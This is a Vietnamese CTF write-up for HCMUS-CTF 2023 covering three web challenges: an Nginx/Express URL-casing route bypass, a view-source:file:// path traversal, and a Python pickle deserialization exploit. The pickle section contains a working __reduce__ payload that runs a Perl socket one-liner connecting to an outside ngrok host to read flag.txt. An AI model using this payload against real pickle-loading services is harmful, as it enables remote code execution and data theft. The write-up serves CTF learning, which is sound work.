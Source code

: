 # HCMUS-CTF2023-writeup
# WEB
### Cute Quote

App.js :
```js
const express = require('express')
const app = express()
const port = 3000

app.use(express.json())
app.use(express.static('css'))

app.get('/', (req, res) => {
  res.sendFile('./index.html', { root: __dirname })
})

const quotes = ['Insanity: doing the same thing expecting different results', '{{7*7}}', '<?php system("whoami"); ?>', '42 is the Answer to the Ultimate Question of Life, the Universe, and Everything']
app.get('/api/public/quote', (req, res) => {
  let quote = quotes[Math.floor(Math.random() * quotes.length)]
  res.send(quote)
})

app.get('/api/public/fake', (req, res) => {
  res.send("HMCSU-CFT{fake_flag}")
})

const flag = process.env.FLAG || "HCMUS-CTF{real_flag}"
app.get('/api/private/flag', (req, res) => {
  res.send(flag)
})

app.listen(port, () => {
  console.log(`Example app listening on port ${port}`)
}
```

- Nhìn sơ qua source code thì đây là một chall viết bằng Express của NodeJS và server được chạy bằng Nginx.
- Có 3 đường dẫn ta cần quan tâm tới là ```/api/public/fake``` dẫn đến fake flag, ```/api/public/quote``` dẫn đến các câu quote được lưu sẵn và cuối cùng là ```/api/private/flag``` dẫn đến flag.
- Tuy nhiên chúng ta không thể truy cập để ```/api/private/flag``` qua cách thông thường.
- Để có thể truy cập, ta sẽ lợi dụng việc sử lý URL của Nginx và Express để có thể đọc flag.
- Đây là URL của mình: ```urlchall/Api/private/flag```
- Flag ```HCMUS-CTF{where_nginx_meet_express!}```
### Safe Proxy

  ![image](https://user-images.githubusercontent.com/89735990/236755727-7eca3e63-61ea-4823-876b-931e9711136d.png)

- Đây là một chall có tag easy nhưng mình tốn khá nhiều thời gian cho nó.
- Trang web có 3 đường dẫn đến các info khác nhau.

  ![image](https://user-images.githubusercontent.com/89735990/236756363-d4ab4210-0eb8-477c-81b7-19cc4a6059d6.png)


- Nhưng khi click thử thì mình không thể vào được do một lỗi gì đó ở User Agent.
- Do không có source code nên mình cũng dám chắc lỗi nằm ở đâu,Flag nằm ở đâu, cũng như khó xác định được hướng làm bài.
- Nhưng sau khi btc gửi hint cũng như một số thắc mắc của người chơi thì mình đã thử dùng phương pháp path traversal

  ![image](https://user-images.githubusercontent.com/89735990/236756803-5cf00b87-67ad-400e-ba3d-8589ecf14d3c.png)

  ![image](https://user-images.githubusercontent.com/89735990/236756877-689cb4bb-dc51-4455-ad4c-3524036f5446.png)
  
- Mình đã thử với sử dụng cách URI Scheme khác và mình nhận ra có thể dùng ```view-source:file://``` để truyền payload path traversal vào.

  ![image](https://user-images.githubusercontent.com/89735990/236757691-f10082a4-21fe-4a2a-884d-a06f3396d223.png)

- FLag : ```HCMUS-CTF{browser_scheme_is_interesting}```
### Pickle Trouble
Server.py:
```py
import pandas as pd
import io
import time
import threading
import socketserver
import sys
from io import StringIO
import secrets
import os
import numpy as np

FLAG_FILE = "flag.txt"
PORT = int(os.getenv("APP_PORT"))
HOST = "0.0.0.0"

original_stdout = sys.stdout

class Service(socketserver.BaseRequestHandler):
    def handle(self):
        captured_output = StringIO()
        sys.stdout = captured_output
        self.flag = self.get_flag()
        
        token = secrets.token_bytes(16)
        
        self.send(b"Gimme your pickle data size (send as byte string)\n")
        data_size = int(self.request.recv(64).decode())
        
        self.send(b"Gimme your pickle data frame (raw bytes)\n")
        pickle_data = self.receive(data_size)
        df = pd.read_pickle(io.BytesIO(pickle_data))
        
        try:
            if bytes(np.random.choice(df["x"], size=16)) == token:
                print(self.flag)
            else:
                raise Exception("Oh no!")
        except Exception as e:
            print("Oops, you missed it!")
            print(e)
        
        self.send(captured_output.getvalue().encode())
        sys.stdout = original_stdout
        
            
    def get_flag(self):
        with open(FLAG_FILE, 'rb') as f:
            return f.readline()
    
    def send(self, s: str):
        self.request.sendall(s.encode("utf-8"))
        
    def send(self, b: bytes):
        self.request.sendall(b)

    def receive(self, b = 1024):
        data = b""
        while len(data) != b:
            data += self.request.recv(256)
        return data
    
class ThreadedService(socketserver.ThreadingMixIn, socketserver.TCPServer, socketserver.DatagramRequestHandler):
    pass

def main():
    service = Service
    server = ThreadedService((HOST, PORT), service)
    server.allow_reuse_address = True
    server_thread = threading.Thread(target=server.serve_forever)
    server_thread.daemon = True
    server_thread.start()

    print("Server started on " + str(server.server_address) + "!")
    # Now let the main thread just wait...
    while True:
        time.sleep(10)
        
if __name__ == "__main__":
    main()
```
- Đọc sơ qua code mình phát hiện được rằng server không hề kiểm tra user input mà sẽ dùng trực tiếp để deserialied.
- Từ đó ta có thể lợi dụng điều này để có thể truyền input vào và get flag.
```py
    def receive(self, b = 1024):
        data = b""
        while len(data) != b:
            data += self.request.recv(256)
        return data
```
- Hàm recive bắt buộc phải nhận đúng 256 byte nếu không sẽ bị lỗi.
- Ý tưởng của mình ngrok để dựng lên một TCP server rồi dùng perl để mở lại stdin stdout stderr và ```cat flag.txt```
```py
import pickle
import base64
import os
import pandas

#r = remote("127.0.0.1", 4135)
r = remote(
    "pickle-trouble-0d7cddd74709c50c.chall.ctf.blackpinker.com", 443, ssl=True)


class RCE:
    def __reduce__(self):
        cmd = 'perl -e \'use Socket;'
        cmd += "$i='0.tcp.ap.ngrok.io'; $p=10151;"
        cmd += "socket(s, PF_INET, SOCK_STREAM, getprotobyname('tcp'));"
        cmd += "if(connect(s,sockaddr_in($p, inet_aton($i))))"
        cmd += "{open(STDIN, '>&s');open(STDOUT,'>&s'); open(STDERR, '>&s'); exec('cat flag.txt');};\"
        cmd = cmd.ljust(256, 'S')
        return os.system, (cmd,)


if __name__ == '__main__':
    pickled = pickle.dumps(RCE())
    r.recvuntil(b"byte string)\n")
    r.sendline(b'256')
    r.recvuntil(b'(raw bytes)\n')
    r.sendline(pickled)
    r.interactive()
    
  ```
 Flag : ```HCMUS-CTF{S||\/|pL3_p1cKlE_ExpL01t-Huh}```

